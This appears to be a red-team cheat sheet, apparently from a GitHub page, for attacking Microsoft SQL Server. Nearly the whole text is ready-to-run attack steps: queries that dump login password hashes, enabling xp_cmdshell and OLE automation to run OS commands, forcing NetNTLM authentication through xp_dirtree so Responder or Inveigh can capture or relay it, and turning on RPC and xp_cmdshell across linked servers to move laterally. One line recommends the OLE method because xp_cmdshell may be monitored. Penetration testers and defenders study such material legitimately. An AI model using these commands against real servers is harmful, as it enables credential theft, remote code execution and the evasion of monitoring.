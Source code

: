 ##### _Gather MSSQL login names and hashes:_
- List login names \(SQL query\): `select sp.name as login, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;`
- Dump hashes if enough privileges \(SQL query\): `select sp.name as login, sl.password_hash, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;`

##### _Escalate from MSSQL sysadmin to MSSQL service account:_
- OS command execution via xp\_cmdshell: 
	- 1\. Enable xp\_cmdshell for code execution \(SQL query\): 
		- `EXEC sp_configure 'show advanced options', '1' RECONFIGURE `
		- `EXEC sp_configure 'xp_cmdshell', '1'  RECONFIGURE`
	- 2\. Verify if xp\_cmdshell is enabled \(SQL query\): `SELECT name, CONVERT(INT, ISNULL(value, value_in_use)) AS IsConfigured FROM sys.configurations WHERE name = 'xp_cmdshell';`
	- 3\. Execute commands \(SQL query\): `EXEC xp_cmdshell '<command>';`
- OS command via OLE\-based procedure: because the 'xp\_cmdshell' technique is well known, it may be monitored or removed completely and therefore this method, based on sp\_OACreate and sp\_OAMethod, may still work\:
	- 1\. Enable OLE \(SQL query\): `EXEC sp_configure 'Ole Automation Procedures', 1; RECONFIGURE;`
	- 2\. Run code \(SQL query\): `DECLARE @myshell INT; EXEC sp_oacreate 'wscript.shell', @myshell OUTPUT; EXEC sp_oamethod @myshell, 'run', null, 'cmd /c "<command to run>"';`
- Relay/Capture NetNTLM hash via xp\_dirtree:
	- Relay MSSQL service account authentication in an attempt to get local admin access to the target system\. For this relay attack to work, it is mandatory that the target server has smb signing off and the relayed MSSQL service account is local admin there\.
		- 1\. Start Responder \(turn SMB and HTTP off\): `python Responder.py -I <interface> -v`
		- 2\. Follow the ‘Get initial system level access via SMB relay attack’ instructions to setup ntlmrelayx 
		- 3\. Run the following query to start the relay attack \(SQL query\): `EXEC xp_dirtree '\\<IP to reach responder>\test', 1, 1`
	- Capture NetNTLM hash:
		- 1\. In an elevated beacon run Inveigh or use Responder \(if the target server can reach it\) to capture the NetNTLM hash \([Inveigh](https://github.com/Kevin-Robertson/Inveigh)\): `Inveigh.exe -DNS N -LLMNR N -LLMNRv6 N -HTTP N -FileOutput N -MachineAccounts Y`
		- 2\. Run the following query to capture the hash \(SQL query\): `EXEC xp_dirtree '\\<ip inveigh>\test', 1, 1`

#####Identify linked MSSQL servers:_
SQL Servers have a concept called "Linked Servers", which allows a database instance to access data from an external source like another MSSQL server\. These can be located in other domains, forests or in the cloud\. Compromising a linked MSSQL server is also a great way for moving laterally\. 
- \([SQLRecon](https://github.com/skahwah/SQLRecon)\): `SQLRecon.exe -a Windows -s <MSSQL server name> -d master -m links`
- SQL query: `SELECT srvname FROM master..sysservers;`
- \([PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)\): `Get-SQLServerLinkCrawl -Instance "<database instance name>"`

##### _Escalate from MSSQL sysadmin to MSSQL service account via linked MSSQL server:_
>There is no max to the linked servers that can be reached and exploited this way but pay close attention to the correctness of the used quotes\.
- Enable 'xp\_cmdshell' on SQL linked server: this method requires that the 'RPC out' function is enabled on both the local\- and the remote database instance\. This is not the default\. Without it, RCE is not possible\. 
	- \([SQLRecon](https://github.com/skahwah/SQLRecon)\):
		- 1\. See what user you are logged in as on the linked SQL server: `SQLRecon.exe -a Windows -s <MSSQL server name> -d master -l <target MSSQL server> -m lwhoami`
		- 2\. Enable RPC and RPC out: `SQLRecon.exe -a Windows -s <MSSQL server name> -d master -l <target MSSQL server> -m lenablerpc`
		- 3\. Enable xp\_cmdshell: `SQLRecon.exe -a Windows -s <MSSQL server name> -d master -l <target MSSQL server> -m lenablexp`